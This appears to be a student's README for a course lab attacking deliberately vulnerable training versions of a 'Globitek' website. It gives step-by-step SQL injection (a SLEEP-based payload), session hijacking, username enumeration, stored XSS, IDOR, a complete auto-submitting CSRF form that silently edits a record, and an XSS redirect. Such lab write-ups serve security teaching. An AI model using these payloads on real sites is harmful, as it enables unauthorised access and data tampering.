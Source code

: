 # Project 8 - Pentesting Live Targets

Time spent: **X** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection
* View a any salesperson's profile
* The end of the url should be ```id=someInteger```
* Replace the integer with ```' OR SLEEP(10)=0--'``` and press enter
* The webpage should reload after 10 seconds

- [ ] GIF Walkthrough: ![](https://i.imgur.com/PlGJagH.gif)

Vulnerability #2: Session Hijacking
* Use two browsers: Chrome (target) and Firefox (attacker)
* Login to the target and navigate to ```public/hacktools/change_session_id.php``` to get the session ID
* Attacker navigate to ```public/hacktools/change_session_id.php``` and change the session ID to the target's session ID
* Should be able to login without entering a username and password

- [ ] GIF Walkthrough: ![](https://i.imgur.com/MJgbz9K.gif)


## Green

Vulnerability #1: Username Enumeration
* Note that ```pperson``` and ```jmonroe99``` are both valid usernames
* When trying to login using a valid username and invalid password will result in a bolded error message
* However trying to login with an invalid username and password will result in a non-bolded error message
- [ ] GIF Walkthrough: ![](https://i.imgur.com/BqJcyXR.gif)

Vulnerability #2: Cross-Site Scripting
* In the Contact section you can add an alert script
* This alert will be triggered when a logged-in user visits the feedback section
- [ ] GIF Walkthrough: ![](https://i.imgur.com/esx4HyK.gif)


## Red

Vulnerability #1: Insecure Direct Object Reference
* View any salesperson's profile (do not log in)
* You can view hidden profile's by changing the ID value at the end of the URL
* Specifically salespeople with IDs 10 and 11 should not be accessible to those not logged in
* When the ID value is modified to 10 or 11 in the green and blue websites, the site redirects to the territories.php page corresponding to the heading "Find a Salesperson"
- [ ] GIF Walkthrough: ![](https://i.imgur.com/dOBXRlO.gif)

Vulnerability #2: Cross-Site Request Forgery
* Submit a link to the following malicious webpage in the Contact section
```
<html>
  <head>
    <title>Feedback</title>
  </head>
  <body onload="document.CSRF.submit()">
	<form action="https://35.184.88.145/red/public/staff/salespeople/edit.php?id=4" method="post" style="display: none;" name='CSRF' target="res">
	    <input type="text" name="first_name" value="No Longer Robert" />
      	<input type="text" name="last_name" value="HACKED" />
      	<input type="text" name="phone" value="123-456-789" />
      	<input type="text" name="email" value="who@HACKED.com" />
	</form>
    <iframe name="res" style="display: none;"></iframe>
  </body>
</html>
```
* This page will silently submit a form edit to the salesperson Robert Hamilton
* This form submission will only occur when a logged-in user views the feedback section and navigates to the link provided
- [ ] GIF Walkthrough: ![](https://i.imgur.com/6sB7IlD.gif)


## Bonus Objective

Vulnerability: Build on cross-site scripting to dedirect the user to a new URL
* This exploit uses the same Cross-Site Scriping idea shown above but instead of showing an alert popup it will redirect the user to a new webpage
* The redirection is achieved by using ```window.location.assign("url")```
- [ ] GIF Walkthrough: ![](https://i.imgur.com/NMNsFw7.gif)


## Notes
